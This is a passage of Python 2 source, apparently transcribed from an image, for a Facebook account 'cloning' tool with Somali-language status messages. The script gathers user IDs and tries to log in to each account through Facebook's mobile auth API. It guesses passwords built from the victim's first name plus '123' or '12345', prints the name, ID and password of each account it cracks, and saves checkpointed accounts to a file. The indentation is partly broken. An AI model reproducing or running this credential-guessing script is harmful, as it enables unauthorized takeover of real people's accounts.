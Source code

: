 			id.append(i['id'])
	elif peak =="0":
		menu()
	else:
		print "\x1b[1;91mFill in correctly"
		pilih_super()

	
	print "\033[1;36;96m[💠] Total IDs : \033[1;92m"+str(len(id))
	jalan('\033[1;34;96m[💠] Fadlan u kadi ')
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\033[1;32;40m[💠] Cloning\033[1;93m"+o),;sys.stdout.flush();time.sleep(1)
	print "\n\033[1;94m   ▚     \x1b[1;91mTo Si aad uu joojiso  tabo CTRL+Z \033[1;94m  ▞"
	print "     \033[1;36;48m⋆﹥━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━﹤⋆"
	print "      \033[1;96m☆::::Checkpoint ID Open After 7 Days::::::☆"

	jalan('                    \033[1;97mStart cloning sug...')
	print  "  \033[1;36;48m⊱ ──────────────────────────── 《∘◦☹◦∘》 ──────────────────────────── ⊰"
	def main(arg):
		global oks
		user = arg
		try:
			os.mkdir('out')
		except OSError:
			pass 
		try:													
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)												
			b = json.loads(a.text)												
			pass1 = b['first_name'] + '123'												
			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")												
			q = json.load(data)												
			if 'access_token' in q:
				x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				z = json.loads(x.text)
				print '\x1b[1;95m[  ✓  ] \x1b[1;97mClone'											
				print '\x1b[1;95m[⚡⚡] \x1b[1;95mName \x1b[1;95m    : \x1b[1;95m' + b['name']											
				print '\x1b[1;95m[⚡⚡] \x1b[1;95mID \x1b[1;95m      : \x1b[1;95m' + user											
				print '\x1b[1;95m[⚡⚡] \x1b[1;95mPassword \x1b[1;95m: \x1b[1;95m' + pass1 + '\n'											
				oks.append(user+pass1)
                        else:
			        if 'www.facebook.com' in q["error_msg"]:
				    print '\x1b[1;96m[ ✖ ] \x1b[1;94mCheckpoint'
				    print '\x1b[1;96m[⚡⚡] \x1b[1;96mName \x1b[1;96m    : \x1b[1;96m' + b ['name']
				    print '\x1b[1;96m[⚡⚡] \x1b[1;96mID \x1b[1;96m      : \x1b[1;96m' + user
				    print '\x1b[1;96m[⚡⚡] \x1b[1;96mPassword \x1b[1;96m: \x1b[1;96m' + pass1 + '\n'
				    cek = open("out/super_cp.txt", "a")
				    cek.write("ID:" +user+ " Pw:" +pass1+"\n")
				    cek.close()
				    cekpoint.append(user+pass1)
                                else:
				    pass2 = b['first_name'] + '12345'										
                                    data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")												
			            q = json.load(data)												
			            if 'access_token' in q:	
				            x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				            z = json.loads(x.text)
				            print '\x1b[1;95m[  ✓  ] \x1b[1;97mClone'											
				            print '\x1b[1;95m[⚡⚡] \x1b[1;95mName \x1b[1;95m    : \x1b[1;95m' + b['name']											
				            print '\x1b[1;95m[⚡⚡] \x1b[1;95mID \x1b[1;95m      : \x1b[1;95m' + user								
				            print '\x1b[1;95m[⚡⚡] \x1b[1;95mPassword \x1b[1;95m: \x1b[1;95m' + pass2 + '\n'											